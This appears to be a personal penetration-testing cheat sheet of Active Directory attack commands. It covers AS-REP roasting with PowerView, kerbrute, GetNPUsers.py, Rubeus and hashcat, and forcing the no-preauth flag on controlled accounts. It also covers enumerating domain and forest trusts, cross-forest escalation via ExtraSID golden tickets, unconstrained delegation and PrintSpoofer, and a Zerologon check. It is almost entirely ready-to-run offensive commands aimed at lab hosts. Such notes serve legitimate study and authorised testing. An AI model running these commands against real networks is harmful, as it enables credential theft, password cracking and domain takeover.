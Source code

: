     //AS-REP Roasting:
        //Check for users:
            //PowerView:
                Get-DomainUser -PreauthNotRequired -verbose
            //Or:  Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
            //Kali:  kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
            //Check and Exploit from Kali:
                GetNPUsers.py corp2.com/Administrator:lab -request -format hashcat -outputfile hashes.asreproast     //sudo echo "192.168.235.80 corp2.com" >> /etc/hosts
                //w/o creds:  GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175
        //Enable (no preauth) for users you have privs/GenericAll over:
            Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
        //Exploit:
            rubeus.exe asreproast /spn:ldap/dc1.ignite.local/ignite.local [/format:hashcat] [/outfile:out.txt]
            //Or:  Get-ASREPHash -UserName TargetUser
            //Or:  Invoke-ASREPRoast -Verbose
        //Crack:
            hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 

    //Forests Summary:
        //Enumerating Trusts:
            //Method 1:  nltest /trusted_domains
                //Primary Domain = current domain
                //Direct Outbound & Direct Inbound = bidirectional trust
            //Method 2:  ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
            //Method 3 - PowerView:  Get-DomainTrust -API
                //From that next domain (if it isn't root):  Get-DomainTrust -API -Domain <abc.com>
            //Method 4:  Get-DomainTrust
            //Further enum w/ PowerView:
                ex.  Get-DomainUser -Domain corp1.com;  Get-NetGroupMember -GroupName "Enterprise Admins"
        //Exploitation:
            //Method 1: After compromising current domain, can create Enterprise Admin golden ticket via ExtraSID feature
            //Method 2: If local admin on server with Unconstrained Delegation, use Rubeus & PrintSpoofer to exploit new DC
            //Method 3: If no server w/ UD (but have domain admin), add a UD server and use PrintSpoofer exploit
        //Enumerating Additional Forests:
            1. Find Trusts:
                //Check for Trusts:
                    ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
                //Check for trusts in child domains of the other forest from corp1.com:
                    Get-DomainTrust -Domain corp1.com
                //Automated:
                    Get-DomainTrustMapping
            2. Enumerate users/groups/etc. in the trusted forest:
                Get-DomainUser -Domain corp2.com
                //Look for users with same accounts in different forests - could share creds
                //Look for foreign group membership of local users:
                    Get-DomainForeignGroupMember -Domain corp2.com
                        convertfrom-sid S-1-5-21-3776646582-2086779273-4091361643-1601
                    //If we compromise the local user, we could gain access to the other forest (corp2.com)
            //can also exploit via linked SQL servers


    //Check Zerologon:
        python3 zerologon_tester.py dc02 192.168.189.130